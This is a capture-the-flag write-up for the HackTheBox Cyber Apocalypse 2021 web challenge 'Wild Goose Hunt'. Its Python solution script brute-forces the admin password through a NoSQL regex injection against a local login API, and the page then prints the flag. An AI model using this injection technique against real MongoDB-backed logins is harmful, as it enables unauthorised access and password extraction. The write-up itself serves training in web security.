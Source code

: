 ```yaml
---
name: Wild Goose Hunt (2021)
event: HackTheBox Cyber Apocalypse CTF 2021
category: Web
description: Writeup for Wild Goose Hunt (Web) - HackTheBox Cyber Apocalypse CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Wild Goose Hunt

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/vqR4i730soY/0.jpg)](https://youtu.be/vqR4i730soY?t=1680s "HTB Cyber Apocalypse CTF 2021: Wild Goose Hunt")

## Challenge Description

> Outdated Alien technology has been found by the human resistance. The system might contain sensitive information that could be of use to us. Our experts are trying to find a way into the system. Can you help?

## Solution

{% code overflow="wrap" %}
```py
import requests
import string

flag = "CHTB{"
url = "http://127.0.0.1:1337/api/login"

# Each time a successful login is seen, restart loop
restart = True

while restart:
    restart = False
    # Characters like *, ., &, and + has to be avoided because we use regex
    for i in "_" + string.ascii_lowercase + string.digits + "!#$%^()@{}":
        payload = flag + i
        post_data = {'username': 'admin', 'password[$regex]': payload + ".*"}
        r = requests.post(url, data=post_data, allow_redirects=False)
        # Correct char results in "successful password"
        if 'Successful' in r.text:
            print(payload)
            restart = True
            flag = payload
            # Exit if "}" gives a valid redirect
            if i == "}":
                print("\nFlag: " + flag)
                exit(0)
            break
```
{% endcode %}

Flag: `CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0r3}`
